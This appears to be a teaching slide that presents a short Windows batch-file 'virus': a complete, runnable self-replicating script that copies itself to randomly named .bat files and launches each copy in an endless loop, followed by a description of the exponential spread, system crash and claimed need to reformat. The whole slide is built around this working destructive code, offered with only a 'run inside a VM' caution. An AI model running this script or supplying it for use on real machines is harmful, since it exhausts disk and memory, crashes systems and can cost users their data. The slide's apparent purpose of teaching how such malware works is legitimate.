

# A Harmful Virus (Run only inside a VM)
@echo off
:A
set x=%random%  (gives random number between 0 and 32767)
type %0 >> %x%.bat
start %x%.bat
goto: A

It creates a new batch file in the same directory and then copies itself onto this new file. It then starts this new virus and then both of them create another copy of themselves which are then run and the process repeats over and over and we have an exponential growth in the number of viruses on disk and in memory (RAM).
the computer will almost definitely crash, the operating system may be corrupted and on the next start up, you will be greeted by the well-known “Blue Screen Of Death”. The only way to get rid of it will be to format your hard drive and re-install the operating system.

%random% %%100 – for numbers in range 0-99